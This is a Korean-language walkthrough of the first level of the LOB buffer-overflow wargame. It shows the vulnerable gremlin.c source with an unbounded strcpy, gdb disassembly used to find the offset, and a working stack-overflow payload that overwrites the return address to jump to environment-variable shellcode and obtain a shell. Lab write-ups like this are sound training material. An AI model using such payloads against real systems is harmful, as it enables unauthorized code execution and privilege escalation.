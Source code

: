 # LOB 1번

#### ID : gate PW: gate
<br>

우선 gremlin.c의 내용을 보자<br>
```cat gremlin.c```<br>
```c
#include <stdio.h>

int main(int argc, char *argv[1])
{
      char buffer[256];
      if (argc < 2){
        printf("argv error\n");
        exit(0);
      }
      strcpy(buffer, argv[1]);
      printf("%s\n", buffer);
}
```
버퍼로 256byte를 입력받을 수 있고 argc가 2개 미만이면 오류를 출력하고 프로그램을 종료시킨다.<br>
2개 이상이라면 buffer에 argv[1] 인자를 복사하고 출력한다.<br>
이 문제는 strcpy 함수를 실행할 때 정해진 복사할 크기가 없다는 취약점을 이용한 것이다<br>

우리의 목적을 생각해보자.<br>
1. buffer 위치 구하기
2. 환경변수 등록 후 주소 얻기
3. ret에 환경변수 주소 덮어씌우기
3. 공격!

**gremlin 코드를 디버깅해야하기 때문에 gremlin1로 복사하자.**<br>

**그리고 디버깅을 해보자**<br>
```gdb -q gremlin1```<br>
```set disassembly-flavor intel```<br>
```disas main```<br>

<main+3>을 보면 0x100만큼의 공간을 만들고 있다. 0x100은 10진수로 256이다.<br>
buffer에서 ebp까지의 거리가 256이라는 것이다.<br>

25byte 쉘코드를 등록해준 후 주소값을 얻는 코드를 통해 주소값을 얻자.<br>

**이제 페이로드를 작성해보자.**<br>
```../gremlin `python -c 'print "A"*260+"\x25\xfd\xff\xbf"'` ```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
**공격 실시!**<br>
```../gremlin `python -c 'print "A"*260+"\x25\xfd\xff\xbf"'````<br>
```my-pass```로 비밀번호를 물어보면<br>
euid와 함께 비밀번호가 "~~". 라고 나올 것이다!!
